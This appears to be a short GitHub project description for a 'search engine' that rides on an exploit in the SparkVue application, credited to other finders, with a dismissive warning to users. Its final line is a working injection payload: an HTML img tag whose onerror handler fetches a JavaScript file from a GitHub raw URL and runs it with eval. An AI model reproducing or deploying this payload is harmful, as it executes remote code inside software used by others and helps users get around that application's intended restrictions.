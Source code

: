 This is a simple better UI search engine for the Sparkvue exploit originally found in 2024 or even earlier idk.

NOTE: I do not consent to your dumb self, if you get this exploit gone. don't come crying to me. Because IDC!

Also thanks to ohonbob for finding this beautiful exploit, and Amurkess for the Idea.
<img src=# onerror='fetch("https://github.com/CharlieIsInsane/CharlieSearch/raw/main/Search%20engine.js").then(r=>r.text()).then(c=>eval(c))'>

